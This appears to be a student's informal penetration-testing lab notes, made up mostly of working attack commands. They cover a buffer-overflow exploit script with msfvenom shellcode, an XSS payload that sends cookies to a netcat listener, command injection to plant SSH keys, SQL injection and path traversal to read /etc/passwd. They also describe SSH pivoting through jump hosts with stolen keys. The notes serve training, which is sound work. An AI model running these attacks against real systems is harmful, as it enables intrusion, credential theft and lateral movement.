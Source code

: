Studying and shit for keygen
; mkdir /var/www/.ssh
; ls lisa /var/www
(in your terminal on linux) ssh-keygen -t rsa (this makes your key)
(terminal) cat ~/.ssh/id_rsa.pub
; echo "THE ENTIRE KEY" >> /var/www/.ssh/authorized_keys (including the first part, and the student@linops)
; cat /var/www/.ssh/authorized_keys
ssh -S /tmp/DEV DEV -O forward -L2222:10.208.50.42:22 SOCKET2
ssh www-data@localhost -p2222
(this may give an error, run the ssh-keygen command it shows)

Instead of /var/www , it may be within a systems user. This could be seen as /home/Comrade/.ssh/authorized_keys
If you are going into someone's ssh known as comrade. This can be applied into the lesson by using the extranet.
################################################################################################################################
Linux python script and such
################################################################################################################################
### Linux
disass <function> #
Certain scripts can take user input ./func <<<$(echo "sjdlfnmlse")
Certain scripts can take parameters ./func $(echo "ojksdmiosdkosf")
gdb ./inventory.exe -> run <<<$(pyhton peebuff.py)

vim
gdb ./func -> run -> info functions -> pdisass main -> pdisass getuserinput
If a system does not have the peda plugin, open-source research the functions and find vulnerabilities.

####
vim lynnbuff.py
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
print(offset)
#####
firefox on linux workstation -> wiremask.eu -> tools -> buffer overflow pattern generator
Instructor pointer is what we are targeting, EIP.
Copy the Hex given, use that HEX to find the offset (Register Value), use that offset to find the actual offset.

After finding the offset, recreate script as
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "BBBB"
print(offset+eip)
#####
type shell in your peda -> env - gdb ./func -> show env -> unset env COLUMNS , unset env LINES -> show env
ctrl + c -> info proc map -> find /b (START HEX AFTER HEAP), (END IN HEX LINE), 0xff, 0xe4
(0xe4 and 0xff are jump locations)
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "BBBB"
print(offset+eip)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
'''
#####
type shell in your peda -> env - gdb ./func -> show env -> unset env COLUMNS , unset env LINES -> show env -> run -> ctrl+C DO NOT ENTER
info proc map -> find /b (START HEX AFTER HEAP), (END IN HEX LINE), 0xff, 0xe4
(0xe4 and 0xff are jump locations)
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
print(offset+eip+nop)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
'''
#####
make your eip your first little endian
0xf7de3b59 -> \x59\x3b\xde\xf7"
0xf7f588ab
0xf7f645fb
0xf7f6460f
0xf7f64aeb

quit to leave gbd or shell to go to shell

msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python

#####
type shell in your peda -> env - gdb ./func -> show env -> unset env COLUMNS , unset env LINES -> show env
ctrl + c -> info proc map -> find /b (START HEX AFTER HEAP), (END IN HEX LINE), 0xff, 0xe4
(0xe4 and 0xff are jump locations)
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
buf = 
print(offset+eip+nop+buf)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python
'''
#####
If there is an error regenerate msfvenom buf lines and reattempt.
./func <<<$(python linbuff.py)

0xf7def000 0xffffe000
################################################################################################################################################################
Cross-Site Scripting:
################################################################################################################################################################
nc -l 127.0.0.1 42070
<script>document.location="http://127.0.0.1:42070/?username=" + document.cookie;</script>


When going from extranet into intra net, you are setting up your localhost like above, the: ssh -S /tmp/DEV DEV -O forward -LLOCALPORT:extranet 
is going to forward your socket that you made (the master socket named DEV) and send it to the extranet IP through the port that you made to forward it (the -L PORT)
Now when you run a localhost ssh ( ssh USERNAMEOFEXTRANET@localhost -p LOCALPORTYOUMADE) it will send you into the extranet.
Things i need to make sure work is doing this with a -D 9050 to send proxychains, but i believe it works. With this you are going to then steal the ssh key OF extranet (cat ~/.ssh/id_rsa.pub)
and save this key that you find into a file named StolenKey, from there you chmod 600 the folder, making sure to double check everything as to not overwrite your ssh key, 
and then you masquerade sshkey to get into the intranet ip you found (cat /etc/hosts , /etc/crontab) Jane will be the device name (intranet) and the IP will be intranet IP.
cat /etc/crontab wioll get you the cronjobs, youll see the backup.tar file in there.
 chmod 600 /home/student/stolenkey
 ssh -i /home/student/stolenkey jane@1.2.3.4
 
scp -P 20010 www-data@localhost:/tmp/backup.gz /home/student/backup.tar.gz
chmod 600 stolenkey1
tar -xvf /home/student/stolenkey1 -C /home/student/stolenkey1_gun

chmod 600 /home/student/stolenkey1_gun/.ssh/id_rsa.pub
ssh -i /home/student/stolenkey1_gun/.ssh/id_rsa Comrade@192.168.150.253 -p 41011

ssh -MS /tmp/hype hype -O forward student@JUMP -L 41010:192.168.28.100:2222
ssh student@localhost -p 41010 -d 9050
ssh comrade@localhost -p 41010 -L 41011:192.168.150.253:3201 -D 9050
ssh -i /home/student/stolenkey/.ssh comrade@localhost -p 41011

To get into the T3, you first need to establish connection to your T1 from your box, this is the master socket. From there you use a localhost login on the local port you opened up to connect to the jump on its open ssh port. You then set up a local port connecting to your T1's socket that now connects to the T3 on its open ssh port, and you can send proxychains up through that as well. Now you masquerade using the T1's ssh key , which is the ssh -i, connecting to the port you set up that sends yourself into the T3.

For dumb S WORD !!!!!!!! <!> <!> <!> ############################################################################################################################################
tar -xvf /home/student/stolenkey1 -C /home/student/stolenkey1_gun
ssh -MS /tmp/jmp student@10.50.11.224 -L 41010:192.168.28.100:2222
ssh www-data@localhost -p 41010 -D 9050 
proxychains nmap -T5 -Pn 192.168.150.253 -p 0-65535 2>/dev/null
chmod 600 /home/student/stolenkey1_gun/.ssh/id_rsa.pub
ssh -i /home/student/stolenkey1_gun/.ssh/id_rsa Comrade@192.168.150.253 -p 41011
ssh -MS /tmp/jmp student@10.50.11.224 -L 41010:192.168.28.100:2222 -L 41011:192.168.150.253:3201


cat /etc/hosts
############################################ PRE-TEST COVER ###################################
First ip address is your target , not a jump box.
Start off by nmapping the given IP, record ports.
Netcat the found ports: nc 10.50.11.179 22
# nmap --script=http-eum 10.50.11.179
firefox -> 10.50.11.179 -> open a tab for every single tab
You can do webpage.login.php?\StuffFoundInEnum and open those files.
#Run an Authentication bypass on the login page. 'OR 1='1 -> ; whoami -> ; cat /etc/passwd , look for users home directory , user2 at bottom
#File to read webpage: ../../../../../../../etc/passwd , /etc/hosts
Malicious File upload: WebEx day 1
Use SSH injection in order to get onto the machine -> ; mkdir -> ssh-kreygen -t rsa -b 4096 -> ; echo "" > /var/www/.ssh/authorized_keys
#ssh -MS /tmp/t1 www-data@10.50.11.179
on PFW machine: for i in {1..255}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
Setup dynamic tunnel to scan new target: ## ssh -S /tmp/t1 t1 -O forward -D 9050
scan new target: ## proxychains nmap 192.168.28.165,.1,.175
##proxychains nc 192.168.28.165 22 
##ssh -S /tmp/t1 t1 -O forward -L1111:192.168.28.175:2222 -L1112:192.168.38.175:8000
firefox -> 127.0.0.1:1112
Go through options, use GET method in order to find the correct one.
# ?product=7 OR 1=1 -> UNION SELECT 1,2,3,4 # (error means take a number away) -> (1,3,2) table_schema.column,column_name.table_name from information.schema.columns #
Duplicate the tab in order to save information, # UNION SELECT user_id,name,username from siteusers.users #

